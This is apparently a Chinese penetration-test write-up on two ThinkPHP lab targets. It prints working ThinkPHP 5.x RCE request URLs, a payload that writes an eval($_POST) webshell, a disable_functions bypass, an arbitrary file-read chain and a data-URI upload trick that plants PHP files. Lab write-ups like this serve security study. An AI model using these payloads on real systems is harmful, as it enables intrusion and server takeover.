




# 记一次代审＋旁站拿下两个 shell 的经历 - 先知社区

记一次代审＋旁站拿下两个 shell 的经历

- - -

### 前言

考核给了我们两个靶场，要我们能够拿下权限

我琢磨琢磨就直接开干了

ThinkPHP 5.x 框架 RCE

给的两个靶场的链接点进去都是登陆框

靶场一：[http://www.shuadan.com/index/user/login.html](http://www.shuadan.com/index/user/login.html)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122213338-d9bbcdfa-b92a-1.png)

靶场二：[http://www.weipan.com/index/login/login/token/54b0933ffdea5b443605d073893c3b90.html](http://www.weipan.com/index/login/login/token/54b0933ffdea5b443605d073893c3b90.html)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122213400-e671d33c-b92a-1.png)

### 靶场二

这里其实看到 URL 的路由就感觉有点东西，然后根据 Wappalyzer 可以知道是 PHP 搭的站

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122213416-f06c52fe-b92a-1.png)

怀疑有可能是 ThinkPHP 的框架，尝试把 login 改成 regis 试试看

结果发现报了个 ThinkPHP 经典错误页面

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122213431-f939a396-b92a-1.png)

后面也去看了下另外一个站点，也是 ThinkPHP 框架搭的

靶场一是 ThinkPHP V5.1.38，靶场二是 ThinkPHP V5.0.5

尝试去用网上的 ThinkPHP RCE 的 EXP

```plain
http://www.weipan.com/index.php?
s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&va
rs[1][]=whoami
```

结果显示 system 函数由于安全原因被禁用了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122213521-16e6b726-b92b-1.png)

其实测到这个地方我感觉是有戏的，因为这里不是说不允许你去这么干

而是说你调用的 system 函数被禁用而已

这里我选择把 system 换成 assert，再尝试一下

```plain
http://www.weipan.com/index.php?
s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&va
rs[1][]=phpinfo()
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122213543-2437341e-b92b-1.png)

发现代码被执行了，所以其实是可以拿 shell 的

这里我通过 file\_put\_contents 函数去写入 webshell

```plain
http://www.weipan.com/index.php?
s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_
contents&vars[1][]=a2cai.php&vars[1][]=%3C%3Fphp%20eval(%24_POST[1])%3B%3F%3E
```

上蚁剑然后连接成功！

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122213613-35f17566-b92b-1.png)

发现权限比较低，而且因为 disable\_functions 禁的比较全，所以也没办法直接执行系统命令

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122213625-3d3645b8-b92b-1.png)

这里的话选择使用蚁剑的插件：绕过 disable\_functions

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122213640-45e384c8-b92b-1.png)

选择 LD\_PRELOAD 模式

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122213651-4cc15784-b92b-1.png)

然后点击开始

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122213703-53847a88-b92b-1.png)

新的代理脚本被上传到根目录的 .antproxy.php 上

我们选择一开始的那个 shell 然后点创建副本

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122213731-649da0d8-b92b-1.png)

然后将副本的 Webshell 连接地址改为 .antproxy.php，密码不变

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122213741-6a9c73e2-b92b-1.png)

这个时候对着新的 webshell 点右键，然后选择 虚拟终端

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122213751-7042e1c8-b92b-1.png)

尝试执行几个 Linux 命令，发现执行成功！

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122213804-782d3514-b92b-1.png)

后面的话尝试了很多 Linux 提权的方法，但是最后都失败了

所以这个靶场二就先打到这里，我们要再打一下靶场一

其实之前我也发现了，靶场一和靶场二实际上是在一台服务器上的

所以拿下靶场二的权限实际上就也算是拿下了靶场一的权限

但是上头不满意，要求我们要通过别的途径在靶场一下也拿到权限

那我就想着说，既然有 shell，那就把源码拖下来审计一下吧

### 靶场一

#### 代码审计

把源码下载下来之后，我就在关注一些文件上传的点

然后偶然间发现了这么个文件，里面存着这个靶场一管理员前后台的账号密码

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122213916-a2e4be4e-b92b-1.png)

通过这个文件，我可以直接登陆到网站的后台

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122213928-a9f44448-b92b-1.png)

代码审计黑白结合，先黑盒找些感觉有戏的再看代码

因为最后目标是拿权限，所以我重点关注一些文件上传的点

发现在支付方式管理模块允许你去上传二维码图片

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122213953-b956e1a2-b92b-1.png)

抓包改后缀，发现提示“文件上传类型受限，请在后台配置”

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122214012-c4434830-b92b-1.png)

既然是后台可配置，那我是不是可以把 php 设置成允许上传的后缀，然后再上传 php 文件？

又是仔细地翻了一下之后，发现了个可以设置允许上传的后缀的地方

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122214033-d0c7d2e2-b92b-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122214041-d5e4e8b4-b92b-1.png)

然后保存显示说“禁止上传可执行文件到本地服务器”

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122214054-dd8c7712-b92b-1.png)

后面看了下源码是直接把 php 和 sh 脚本给写死了不让传

然后我就尝试设置 php3，发现确实是可以设置

但是后续访问这个 php3 文件的时候直接下载了不解析...

后续在代审的时候发现两个洞，第一个是未授权泄露系统接口路径

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122214115-e9ed1d68-b92b-1.png)

[http://www.shuadan.com/admin.html?s=admin/api.update/tree](http://www.shuadan.com/admin.html?s=admin/api.update/tree)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122214136-f6bd8c58-b92b-1.png)

还有一个网站目录下任意文件读取（无需权限）

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122214153-0056e232-b92c-1.png)

[http://www.shuadan.com/admin.html?s=admin/api.update/read?encode=2r33322u2x2v1b2s2p382p2q2p372t1a342w34](http://www.shuadan.com/admin.html?s=admin/api.update/read?encode=2r33322u2x2v1b2s2p382p2q2p372t1a342w34)

这个的话比上面那个就稍微麻烦点，因为它传入参数的值是加密了的

我直接定位到 encode 函数放到本地来跑

```plain
<?php
function encode($string)
{
list($chars, $length) = ['', strlen($content = iconv('UTF-8',
'GBK//TRANSLIT', $string))];
for ($i = 0; $i < $length; $i++) $chars .=
str_pad(base_convert(ord($content[$i]), 10, 36), 2, 0, 0);
return $chars;
} v
ar_dump(encode($_GET[1]));
?>
```

尝试去读取 config/database.php 文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122214230-16e8097c-b92c-1.png)

调用接口传参 /admin.html?s=admin/api.update/read?encode=2r33322u2x2v1b2s2p382p2q2p372t1a342w34

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122214245-1fa91c36-b92c-1.png)

丢去给 base64 解密，获取到文件内容

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122214256-25e2645e-b92c-1.png)

然后根据这个任意文件读取，可以去看一些实时更新的文件，例如日志文件...

在日志文件，我发现了这个东西

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122214313-30141526-b92c-1.png)

看起来是有一个接口，允许你去上传文件（需要有前台用户权限）

定位到这个方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122214325-37b5f876-b92c-1.png)

其中的关键在于 upload\_base64 这里，我们跳转过去看看

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122214337-3e996bb4-b92c-1.png)

其实可以很容易看出来，它这个地方其实是存在漏洞的

它这儿的逻辑是根据 data:image/XXX;base64,BASE64 内容 来上传特定类型的文件

即正常来说 data:image/png;base64,XXXXXXXXXXXX 的话就会是张图片

而如果是 data:image/php;base64,XXXXXXXXXXXX 就会是一个 PHP 文件

我尝试去构造参数拼接一下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122214402-4d4eb4b6-b92c-1.png)

成功上传了 PHP 文件，因为我有另外一个旁站的 shell

所以我知道路径直接去访问那个 php 文件发现是可以正常解析的

但是，文件的路径我们怎么知道呢？

这个文件上传的路径是由以下这个方法去决定的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122214418-56d62f78-b92c-1.png)

这个地方会有一个 7 位纯数字的随机数

使得我们即便上传上去了，但也难以访问到这个马

后面经过我大哥的提醒，我发现了另外一个接口（需要有前台用户权限）

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122214436-61c31540-b92c-1.png)

这个地方也调用了 upload\_base64 的这个有权限的文件上传接口

但是好就好在如果用 GET 去请求这个接口的话，会返回文件上传的路径

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122214448-68bed71c-b92c-1.png)

构造参数上传文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122214501-70d76b44-b92c-1.png)

成功上传文件之后 Change Request Method

发现了上传上去的文件的路径

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122214516-79e76806-b92c-1.png)

尝试去访问这个路径下的 PHP 文件

[http://www.shuadan.com/upload/xy/2023/08-29/20230829101313-5983289.php](http://www.shuadan.com/upload/xy/2023/08-29/20230829101313-5983289.php)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122214534-8417b3f8-b92c-1.png)

最后拿下两个站点的 shell，收工！
